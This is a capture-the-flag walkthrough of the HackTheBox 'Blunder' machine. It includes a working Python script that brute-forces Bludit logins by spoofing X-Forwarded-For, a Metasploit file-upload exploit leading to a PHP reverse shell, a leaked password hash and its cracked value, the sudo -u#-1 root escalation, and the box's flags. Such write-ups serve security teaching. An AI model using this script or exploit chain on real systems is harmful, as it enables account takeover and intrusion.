



# Blunder

Author: Ewaël

**Blunder** is an easy HackTheBox box by egotisticalSW.

`nmap -sC -sV -oN nmap 10.10.10.191 -v -A` shows port 80 is open.



`/admin` contains a login page:



Basics creds and simple sql injection do not work but I am able to find the Bludit version in the source code: `3.9.2`. After some googling I quickly find that this version is vulnerable to bruteforce there:

[https://rastating.github.io/bludit-brute-force-mitigation-bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass)

After trying to make it work with `rockyou.txt` and `admin` I realize that I must be missing something. Dirbuster does not find anything quickly because of the ridiculous amount of php pages, so I decide to use gobuster to focus on `.txt` files that could hide on the site:

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.191/ --extensions .txt
```

I finally see `/todo.txt` which contains the `fergus` user. Going back on my script which still does not work with this user I decide to create my own wordlist with the main page words because the user "created this site to dump [his] fact files" so the password might be hiding in it.

```
cewl http://10.10.10.191 > site_words
```

Running my script again with this wordlist finally works:

```python
#!/usr/bin/env python3

# modified version of https://rastating.github.io/bludit-brute-force-mitigation-bypass

import requests as rq
import re

dico = open("site_words")

url = "http://10.10.10.191/admin/login"
username = "fergus"

for word in dico:
    password = word[:-1]
    session = rq.Session()
    login_page = session.get(url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {}'.format(password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
        'Referer': url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(url, headers=headers, data=data, allow_redirects=False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {}:{} to login.'.format(username, password))
            print()
            break
```



Now that I have access to the admin dashboard I can use a file upload exploit in order to get a reverse shell.

```
Bludit - Directory Traversal Image File Upload (Metasploit)  | php/remote/47699.rb
```

Metasploit successfully opens a meterpreter session which I use to upload my `php-reverse-shell.php` in `/var/www/bludit-3.9.2/bl-content` so I can access it easily from browser to trigger it.

My shell opens as `www-data` as usual. After moving around checking the files I find the hashed password for `hugo` in `/var/www/bludit-3.10.0a/bl-content/databases/users.php`:

```php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

[CrackStation](https://crackstation.net) cracks it easily: `Password120`. `su hugo` with this password allows me the get the user flag:

`dbc21f54284dfb080b785d3c59242c93`

A quick `sudo -l` returns `(ALL, !root) /bin/bash`. Following [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502) I use `sudo -u#-1 /bin/bash`... and I get a root shell.

`c8ebb8a0a90170a934452996c79922e6`
